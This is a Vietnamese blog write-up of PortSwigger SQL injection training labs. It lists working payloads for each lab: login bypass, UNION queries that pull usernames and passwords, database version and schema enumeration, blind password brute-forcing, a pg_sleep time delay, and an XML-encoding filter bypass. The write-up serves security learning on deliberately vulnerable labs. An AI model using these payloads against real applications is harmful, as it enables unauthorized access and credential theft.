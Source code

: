 ```yaml
---
title: SQL Injection Labs
date: '2022-12-24'
tags: ['porswigger', 'sql', 'injection','sqlinjection']
draft: false
summary: Writeups cua SQL Injection Labs.
images: ['/static/images/ccna/cisco.jpg']
author: ['default']
---
```

**[1.SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)**

- Ta thấy lệnh ```filter?``` sẽ truy xuất dữ liệu. Dùng ```filter?category=Pets'+or+1=1--'``` sẽ hiện ra toàn bộ thông tin sản phẩm.

**[2.SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)**

![image](https://user-images.githubusercontent.com/61643034/209037070-e5b60413-e259-47d7-9a2d-28b3c433fc0f.png)
- Sử dụng Burp Suite để chặn và sửa đổi yêu cầu đăng nhập.
- Sửa đổi tham số, cung cấp cho nó giá trị: ```usernameadministrator'--```

**[3.SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)**
- Mục đích của bài này là xác định số trường của query.
- Theo gợi ý thấy chèn sau category=? 1 đoạn ```'+UNION+SELECT+NULL,NULL--```
- Kết quả trả về là internal server -> thừa hoặc thiếu số lượng trường trong bảng -> thêm 1 trường vào -> query trở thành ```filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL-- ```

**[4.SQL injection UNION attack, finding a column containing text ](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)**

- Bài này không chỉ cần xác định số trường của query mà còn cả vị trí của text string nữa.
- Cùng 1 trang web query nên ta biết chắc query này cũng sẽ có 3 cột
- Thử payload ```'+UNION+SELECT+'a',NULL,NULL--``` -> màn hình hiện lên bắt nhập string bắt buộc là ```'QCQTlQ'``` -> Enter
- Vẫn bị lỗi internal server -> thử vị trí của string thành cột 2, hoặc 3 -> ```'+UNION+SELECT+NULL,'QCQTlQ',NULL--``` -> done

**[5.SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)**

- Theo mô tả, ta thấy trong database có bảng khác tên là users và bảng này có 2 cột ```username``` và ```password```.
- Thử payload ```'+UNION+SELECT+'a','a'--``` -> Lăn xuống thấy trả về 2 string ***a***
- Thay thành ```'+UNION+SELECT+'username','password'--```
- Màn hình sẽ show ra nhiều hàng hiển thị nhiều tài khoản -> lọc lại thấy có tài khoản ```administrator```
![image](https://user-images.githubusercontent.com/61643034/209432735-55ce8a1f-04e6-4e5b-8a47-04a90503dbaf.png)
 
 -> Click vào trang login -> nhập username và password và -> done
 
 **[6.SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)**

- Tương tự 3.3,thử payload ```'+UNION+SELECT+NULL,username||'~'||password+FROM+users--``` 
![image](https://user-images.githubusercontent.com/61643034/209439384-7f5fc4e3-81c4-4312-8821-80c683513ebf.png)

 -> Click vào trang login -> nhập username và password và -> done
 
 **[7.SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)**

- Thử payload ```'+UNION+SELECT+'a',+NULL+FROM+v$version--``` 
- Thông tin của Oracle sẽ hiện ra và done!

 **[8.SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+@@version,+NULL#``` đây là payload dùng để show version -> sau đó có được version ```'8.0.31-0ubuntu0.20.04.2'``` thì thay ```@@version``` thành version vừa kiếm được. Vậy là xong rồi ^^

**[9.SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--``` đây là payload dùng để show tên các table có trong database, chúng ta sẽ cần nó để tìm tới table chứa ``user `` rồi thấy có 1 table tên là ```users_gwglpg``` rất khả nghi =)))
- Thử truy xuất dữ liệu xem có gì nào. Sửa pay load lại 1 xíu thành ```'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gwglpg'--``` -> ta được ```username_jsoxhc``` và ```password_tppahp```
- Giờ cùng dùng payload cuối nào ```'+UNION+SELECT+username_jsoxhc,+password_tppahp+FROM+users_gwglpg--``` 
![image](https://user-images.githubusercontent.com/61643034/209443750-96e84f6a-b582-40ce-8796-4383a022bdf8.png)

- Vào ***My Account*** rồi login với tài khoản admin trên là xong =)))

**[10.SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)**

- Dùng payload ```'+UNION+SELECT+'abc','def'+FROM+dual--``` -> hiện ra list bảng thấy có bảng user đặc biệt
![image](https://user-images.githubusercontent.com/61643034/209445285-0d03af36-06d8-4c80-be92-c6ebd47be4e1.png)
- Giờ có user -> đổi payload thành ```'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_VODNEC'--``` (vì mình để lab lâu nên nó tự đổi tên user_name :> )
![image](https://user-images.githubusercontent.com/61643034/209446011-b155badb-1b25-4d34-bb21-c5c50d1d4875.png)
- Tiếp có username và password -> đổi payload thành như sau ```'+UNION+SELECT+USERNAME_VGBMEN,PASSWORD_BDEQAY+FROM+USERS_VODNEC--```
![image](https://user-images.githubusercontent.com/61643034/209446101-873b06f6-415e-42e4-b36d-0345d5af381e.png)
- Bây giờ chỉ login vào nữa :> 

**[11.Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
- Truy cập trang web -> chọn bất kì 1 category và bật interception burosuite
![image](https://user-images.githubusercontent.com/61643034/209454680-d4ae355a-30ee-4c48-8c2b-8a057e48a4d4.png)
- Theo gợi ý, mình sẽ chỉnh sửa phần TrackingID với payload ```TrackingId=abcxyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=$hehe$)='a``` -> ném cái này vào intruder để xem độ dài của password -> lenght=20
- Sau đó dùng payload sau để kiểm tra từng kí tự của password ```TrackingId=xyz' AND (SELECT SUBSTRING(password,$position$,1) FROM users WHERE username='administrator')='$a$``` với vị trí bruteforce số 1 để từ ***1-20***, còn với vị trí 2 để list là **a-z và 0-9**. 
- Để Grep match case là "Welcome back" -> thu về password là ```qqdl6qgmenyo3fdkcpst```
- Vào login với account administrator là done :>

**[13.Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
- Theo gợi ý, mình sẽ chỉnh sửa phần TrackingID với payload trong repeater ```TrackingId=x'||pg_sleep(10)--``` -> send -> done 🫀

**[Bài 12 và 14 làm tương tự các bước bài 11+13]()**

**[17.SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
![image](https://user-images.githubusercontent.com/61643034/209040423-3270052e-3a07-4225-9431-70a5c5d6b9cc.png)**

- Truy cập trang web, ở burpsuite, bật interception on
- Bấm vào ```check``` -> vào check request trả về
- Trong request có trường ```storeID``` -> sửa thành ```1+1``` -> trả về 144 unit -> bằng với storeID=2
- Nhập 1 lệnh attack vào giữa cặp ```<storeID>``` -> trả về attack detected -> bị block
  ![image](https://user-images.githubusercontent.com/61643034/209041177-ab4fe22c-2342-451b-aa22-872c072242b4.png)
- Bây giờ vào extension -> cài Hackvertor -> vào encode -> dec_entries -> dán ```<@dec_entities>1 UNION SELECT username || '~' || password FROM users<@/dec_entities>``` vào được output -> copy thả lại vào cặp thẻ ```<storeID>```.
![image](https://user-images.githubusercontent.com/61643034/209444081-694a1c38-9abc-4c49-9bcc-7a908e80d23d.png)
 Và bbooms
![image](https://user-images.githubusercontent.com/61643034/209042766-d1661308-9cbb-42c4-9651-58ebde6e0c14.png)
- Bây giờ, chỉ cần login nữa là xong rồi ^^
